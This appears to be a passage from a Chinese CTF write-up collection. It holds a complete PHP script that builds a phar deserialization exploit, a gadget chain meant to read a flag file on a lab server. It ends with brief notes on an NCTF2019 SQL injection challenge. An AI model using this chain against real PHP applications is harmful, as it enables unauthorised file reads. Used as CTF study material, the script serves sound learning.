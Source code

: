 ```php
        $text = base64_encode(file_get_contents($value));
        return $text;
    }
}
?>
```

```php

<?php
class C1e4r
{
    public $test;
    public $str;
}

class Show
{
    public $source;
    public $str;
}
class Test
{
    public $file;
    public $params;
}

$a = new C1e4r();
$b = new Show();
$a->str = $b;  //触发__tostring
$c = new Test();
$c->params['source'] = "/var/www/html/f1ag.php";//目标文件
$b->str['str'] = $c;  //触发__get;


$phar = new Phar("exp.phar"); //生成phar文件
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$phar->setMetadata($a); //触发类是C1e4r类
$phar->addFromString("text.txt", "test"); //签名
$phar->stopBuffering();

?>

```

# [NCTF2019]SQLi
>https://blog.csdn.net/l2872253606/article/details/125265138

正则注入
扫目录，设置延时--delay防止429
